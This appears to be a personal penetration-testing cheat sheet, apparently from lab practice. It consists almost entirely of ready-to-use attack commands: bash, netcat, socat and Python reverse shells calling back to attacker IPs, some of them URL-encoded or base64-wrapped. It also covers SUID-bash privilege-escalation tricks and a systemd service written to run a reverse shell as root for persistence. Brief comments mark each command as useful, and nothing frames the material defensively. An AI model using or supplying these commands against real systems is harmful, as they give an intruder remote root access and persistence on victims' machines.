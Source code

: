 ```bash
bash -c 'bash -i >& /dev/tcp/192.168.45.202/80 0>&1'
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
echo -n '/bin/bash -c "bin/bash -i >& /dev/tcp/192.168.45.176/80 0>&1"' | base64

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

# this copies /bin/bash with SUID privilege! pretty useful(must be run with -p option so keep the privilege)
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
/tmp/0xdf -p

# just add +s
echo "chmod +s /bin/bash" > /tmp/root.sh
/bin/bash -p

# socat??
socat TCP:192.168.118.8:18000 EXEC:sh

# when we can't use vi or mousepad(very useful)
cat << EOF > /home/cmeeks/reverse.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.45.202/80 0>&1
EOF

# When we need to edit file with terminal
cat << EOF > /etc/systemd/system/pythonapp.service
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
ExecStart=/home/cmeeks/reverse.sh
TimeoutSec=30
RestartSec=15s
User=root
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
EOF

++++++++++++++++ ruby reverse shell ++++++++++++++++++++++++++++++++++++++++++++
echo 'system("chmod +s /bin/bash")' > app.rb



++++++++++++++++ Python reverse shell ++++++++++++++++++++++++++++++++++++++++++++

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.x",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.x",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# When escaping double quotes
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.175\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'

```